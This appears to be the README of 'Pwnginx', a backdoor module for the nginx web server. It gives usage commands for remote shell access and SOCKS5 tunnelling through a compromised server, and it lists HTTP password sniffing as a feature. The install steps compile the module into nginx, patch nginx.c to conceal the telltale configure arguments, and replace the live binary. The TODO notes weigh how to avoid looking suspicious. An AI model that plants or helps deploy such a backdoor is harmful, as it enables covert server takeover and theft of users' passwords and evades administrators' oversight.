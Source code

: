#[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get a shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [socks5ip] [socks5port]


###Features:
    
* Remote shell access

* Socks5 tunneling via existing http connection

* Http password sniffing & logging

###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: `configure arguments: --prefix=/opt/nginx\n");` (original configure arguments shown in the result of `nginx -V`)

* Recompile nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make (There is no need to run `make install`)
    $ sudo cp -f objs/nginx /path/to/nginx/sbin/nginx

* Restart nginx
    $ sudo killall nginx && /path/to/nginx/sbin/nginx


###TODO:

* Pack communication traffic into HTTP protocol

* Full pty support

* Shell with root privilege(? There must be another stand-alone 'nginx: master process' running under root to support this function. Maybe that's too suspicious. Being considered.)
